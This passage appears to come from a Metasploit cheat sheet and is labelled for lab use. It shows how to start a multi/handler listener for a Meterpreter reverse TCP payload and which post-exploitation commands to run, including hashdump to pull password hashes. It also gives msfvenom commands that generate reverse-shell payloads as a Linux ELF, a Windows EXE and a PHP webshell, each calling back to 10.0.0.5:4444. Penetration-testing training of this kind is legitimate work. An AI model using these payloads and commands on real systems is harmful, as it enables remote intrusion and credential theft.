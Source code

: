 ### C. Run exploit (and background handler if needed)

```text
exploit -j            # run as job (background); or just `exploit`
# or: use handler separately:
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter_reverse_tcp
set LHOST 10.0.0.5
set LPORT 4444
exploit -j
```

### D. After successful exploit

```text
sessions -l
sessions -i 1         # interact with session #1
# inside Meterpreter:
sysinfo
getuid
hashdump              # requires proper privileges and module availability
```

> [!important] Some exploit modules will automatically start a handler for you; others expect you to run `multi/handler` first. Read `show options` and module docs (`info`) to confirm behavior.

---

# `msfvenom` — full examples & common formats

List payloads and formats:

```bash
msfvenom -l payloads
msfvenom --list formats
```

### Example payload generation commands (lab)

Linux ELF payload:

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f elf -o rev_shell.elf
```

Windows EXE payload:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f exe -o rev_shell.exe
```

PHP webshell (raw PHP code to drop into a PHP app in lab):

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f raw > rev_shell.php
```
